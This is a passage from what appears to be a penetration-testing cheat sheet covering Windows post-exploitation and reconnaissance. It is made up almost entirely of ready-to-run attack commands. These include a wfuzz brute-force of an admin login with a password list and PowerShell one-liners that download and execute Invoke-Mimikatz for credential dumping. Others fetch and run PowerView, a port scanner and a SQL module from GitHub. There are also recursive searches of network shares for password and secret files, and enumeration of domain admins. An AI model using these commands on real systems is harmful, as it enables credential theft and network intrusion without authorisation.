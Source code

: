 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
 <a name="miscwin"></a><h3> Miscellaneous </h3>
  
 <b> Invoke Mimikatz </b>
  
  <pre>IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');Invoke-Mimikatz</pre>
  
  
   <b> Runas Powershell </b>
  
  ```Start-Process powershell.exe -Verb runas```
  ```Start-Process powershell.exe -Credential <user>```
  
  <b> View Shares With Permissions </b>
  
  <pre>powershell.exe -exec bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');Invoke-ShareFinder -CheckShareAccess"</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455620-34f292b4-ed83-11e7-92b0-3b8dd387146f.png)
  
  
  <b> View files that contain certain words recursively </b>
  
  <pre> ls -Path \\SVHOST1.LAZULI.CORP\tmp$ -Include "*pass*","*
admin*","*secret*" -Recurse -ErrorAction SilentlyContinue</pre>

![image](https://user-images.githubusercontent.com/7115563/34455641-aa03adf4-ed83-11e7-8333-a69366714921.png)

<b> View files which name contains certain words recursively </b>

<pre>dir -Path \\SVHOST1.LAZULI.CORP -Include "*pass*","*admin*","*secret*" -Recurse -ErrorAction SilentlyContinue</pre>

![image](https://user-images.githubusercontent.com/7115563/34455649-dcc941ea-ed83-11e7-9428-a702f254e807.png)

<b> Connect to MSSQL Database </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/michaellwest/PowerShell-Modules/master/CorpApps/Invoke-SqlCommand.ps1')

Invoke-SqlCommand -Server 172.11.14.89 -Database master -Username sa -Password <password> -Query "exec sp_databases" </pre>

<b> Port Scanning </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Invoke-Portscan.ps1')

Invoke-Portscan -Hosts [ip] -TopPorts 50</pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455679-6e630230-ed84-11e7-995e-2eea1a6fc8dc.png)
  
  
  <b> View Domain Admins </b>
  
  <pre> net groups /domain "Domain Admins"</pre>
  
```
